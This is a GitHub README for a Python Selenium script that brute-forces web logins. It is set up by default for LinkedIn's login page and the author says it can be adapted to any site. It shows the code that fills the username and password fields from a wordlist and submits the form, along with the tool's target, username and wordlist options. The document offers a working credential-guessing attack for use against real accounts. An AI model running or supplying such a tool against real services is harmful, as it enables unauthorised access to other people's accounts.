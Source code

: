 # Selenium-Brute-Force
A simple script for doing brute-force attack using selenium.

## Help
- The default script is useful for Linkedin, but it works for everything. For other platforms, it needs to extract username id, password id, and login button class using browser inspector.
![](https://github.com/mohammadkamrani/Selenium-Brute-Force/blob/main/2021-01-20_14-43-37.jpg)
put them in code.
```python
	username = driver.find_element_by_id("username")		
	username.clear()
	print("username: "+curuser)
	username.send_keys(curuser)		
	password = driver.find_element_by_id("password")
	password.clear()
	print("password: "+passw+"\n")
	password.send_keys(passw)			
	driver.find_element_by_class_name('login__form_action_container').click()
```
- -h, --help  show this help message and exit
- -t    target's url: https://www.linkedin.com/uas/login
- -u    username
- -p    wordlist: for example password.txt

![](https://github.com/mohammadkamrani/Brute-Force/blob/main/ezgif.com-video-to-gif.gif)

